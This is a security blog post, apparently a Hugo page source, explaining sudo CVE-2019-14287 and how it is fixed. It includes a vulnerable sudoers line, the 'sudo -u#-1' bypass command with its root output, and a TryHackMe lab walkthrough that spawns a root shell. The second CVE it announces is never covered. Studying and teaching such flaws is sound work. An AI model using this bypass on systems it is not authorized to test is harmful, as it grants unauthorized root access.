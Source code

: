 ```yaml
---
title: "Sudo CVEs"
description: 
date: 2025-01-23T14:14:48Z
image: post/cvessudo.jpg
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["Privesc","kernel","Linux","Sudo","CVE"]
categories: ["Linux-Privilege-Escalation","Sudo-Attacks"] 
---
```


# Sudo CVEs

In this article, we will discuss sudo CVEs, specifically `CVE-2019-14287` and `CVE-2019-18634`, and how they allow us to achieve sudo privilege escalation on Linux systems.  

## **CVE-2019-14287**

CVE-2019-14287 is a vulnerability in `sudo` that allows a user with restricted privileges to execute arbitrary commands as **root**, even if they are explicitly denied in the `sudoers` file. This occurs due to improper validation of the user ID (`UID`) when running commands.

---

## **Details of the Vulnerability**

1. **Affected Software**:
    - `sudo` versions prior to **1.8.28**.
    
1. **Vulnerability Description**:
    - When `sudo` is configured to allow a user to execute commands as any user **except root** using the `!ALL` directive in the `sudoers` file, the vulnerability allows bypassing this restriction.
    - The issue arises because `sudo` does not properly handle the `-1` or `4294967295` value for the `UID`. Internally, these values are interpreted as `0` (root).
2. **Exploitation**:
    - A user can exploit this by specifying `-u#-1` to execute a command as root, bypassing the restrictions.

---

## **Proof of Concept (PoC)**

### 1. Vulnerable Configuration in `/etc/sudoers`:

The following configuration denies a user (`exampleuser`) from executing commands as root:

```plaintext
exampleuser ALL=(ALL,!root) ALL
```

### 2. Exploit Command:

The attacker can bypass the restriction and run commands as root:

```bash
sudo -u#-1 id
```

### 3. Expected Output:

The command will execute as root (`UID=0`):

```plaintext
uid=0(root) gid=0(root) groups=0(root)
```

---

## **Impact**

- **Privilege Escalation**: The attacker gains root privileges, bypassing intended restrictions.
- **Severity**: High (CVSS Score: 7.8).

---

## **Mitigation**

1. **Update `sudo`**:
    
    - Upgrade to **sudo 1.8.28** or later, which properly validates `UID` values.
    
    ```bash
    sudo apt update && sudo apt install sudo
    ```
    
2. **Audit and Restrict sudoers Configuration**:
    
    - Ensure your `sudoers` file does not rely solely on `!root` for user restrictions.
3. **Monitor and Log sudo Usage**:
    
    - Use logs to monitor unusual activity involving `sudo`.

---

## Labs :

- https://tryhackme.com/r/room/sudovulnsbypass

### TryHackMe Lab 

Now that we have access to the machine, our next goal is to gain root privileges using the identified vulnerability.

First, we use the command `sudo -l` to check what commands we can execute with the current user.

![image alt text](post/cves1.png)


After running `sudo -l`, we see that we can run `/bin/bash` as another user except for root. Let’s exploit this vulnerability.

```shell
sudo -u#-1 /bin/bash
```

![image alt text](/my_image.png)


And just like that, we are now the root user! :

### **References**

- [MITRE CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
